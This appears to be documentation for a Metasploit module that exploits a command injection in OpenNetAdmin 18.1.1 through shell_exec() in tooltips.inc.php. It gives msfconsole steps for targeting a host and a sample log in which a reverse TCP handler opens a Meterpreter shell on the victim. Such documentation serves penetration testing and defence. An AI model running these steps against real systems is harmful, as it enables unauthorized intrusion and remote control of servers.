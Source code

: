 OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors.

This module exploits a command injection in OpenNetAdmin.

## Verification
Launch metasploit and set the appropiate options:

> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/linux/http/opennetadmin_ping_cmd_injection`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set VHOST <hostname>`
> * [ ]  `exploit`

## Description

OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors.
This module exploits a command injection in OpenNetAdmin. The vulnerability exists on the tooltips.inc.php component, due to the insecure usage of the shell_exec() php function.

## Vulnerable Application

This module has been tested with [OpenNetAdmin 18.1.1](https://github.com/opennetadmin/ona/releases/tag/v18.1.1)

## Setup

https://github.com/opennetadmin/ona/wiki/Install

## Verification

Launch metasploit and set the appropiate options:
>
> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/linux/http/opennetadmin_ping_cmd_injection`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set VHOST <hostname>`
> * [ ]  `exploit`

## Options

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is set as optional.

## Scenarios

 Tested OpenNetAdmin 18.1.1 on Ubuntu 19.10 x64

```
msf5 > use exploit/linux/http/opennetadmin_ping_cmd_injection
msf5 exploit(opennetadmin_ping_cmd_injection) > set RHOSTS 172.16.172.152
RHOSTS => 172.16.172.152
msf5 exploit(opennetadmin_ping_cmd_injection) > set VHOST example.com
VHOST => example.com
msf5 exploit(opennetadmin_ping_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf5 exploit(opennetadmin_ping_cmd_injection) > exploit
[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.152:38590) at 2019-12-10 02:38:52 +0300
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Command Stager progress - 100.12% done (810/809 bytes)

meterpreter >
```

